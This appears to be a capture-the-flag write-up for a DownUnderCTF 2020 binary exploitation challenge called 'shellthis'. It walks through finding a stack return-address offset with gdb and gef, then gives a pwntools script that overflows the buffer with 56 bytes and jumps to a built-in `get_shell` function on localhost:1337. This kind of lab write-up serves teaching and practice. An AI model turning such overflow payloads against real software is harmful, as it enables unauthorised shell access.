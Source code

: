 This is a simple binary exploitation challenge with a buffer overflow on the stack in the `vuln` function. The binary conveniently has a `get_shell` function you can call to get a shell.

1. Find the offset to the return address. This is easily doable with `gdb` with the `gef` extension. You use the `pattern create` command to get a unique pattern, pass it as input, look at the value in `rbp`, use `pattern offset <rbp_value` to get the offset, and then add 8 to it to get the offset to the return address. This is shown below:

```
$ gdb ./shellthis

gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
Starting program: /home/faith/projects/downunderctf/Challenges_2020/pwn/shellthis/publish/shellthis 
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

// Binary crashes with a SIGSEGV, lots of output
...
$rbp   : 0x6161616161616167 ("gaaaaaaa"?)
...

gef➤  pattern offset 0x6161616161616167
[+] Searching '0x6161616161616167'
[+] Found at offset 48 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```

2. Now that we've found our offset at 56 (48 + 8), we do a buffer overflow attack. We pass in 56 'A's followed by the address of the `get_shell` function. The exploit script below demonstrates this, and should be self-explanatory:

```python
#!/usr/bin/env python3

from pwn import *

# Load information about the binary
elf = ELF("./shellthis")

# Connect to the remote host, in this case it's just localhost:1337
p = remote("localhost", 1337)

# 56 'A's followed by the address of `get_shell`
payload = b"A"*56 + p64(elf.sym["get_shell"])

# Receive the text from the program, and send the payload
p.recv()
p.sendline(payload)

# Get an interactive shell
p.interactive()
```
